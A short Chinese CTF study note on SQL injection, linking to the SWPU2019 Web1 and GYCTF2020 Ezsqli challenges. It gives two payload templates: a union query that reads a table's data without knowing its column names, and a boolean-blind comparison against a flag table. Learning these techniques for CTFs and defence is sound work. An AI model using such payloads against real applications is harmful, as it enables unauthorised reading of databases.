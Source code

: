 参考[[[SWPU2019]Web1（学习）]]
```sql
union select 
1,
(
	select group_concat(<name_x>)
	from
	(
		select 1 as <name_1>, 2 as <name_2>, 3 as <name_3>
		union select * from <table_name>
	)
),
3
```

另一种方法参考[[[GYCTF2020]Ezsqli]]，适用于布尔盲注

```sql
((select 1,"%s") < (select * from f1ag_1s_h3r3_hhhhh))#
```

#Web #SQL注入 #联合注入 #无字段名注入 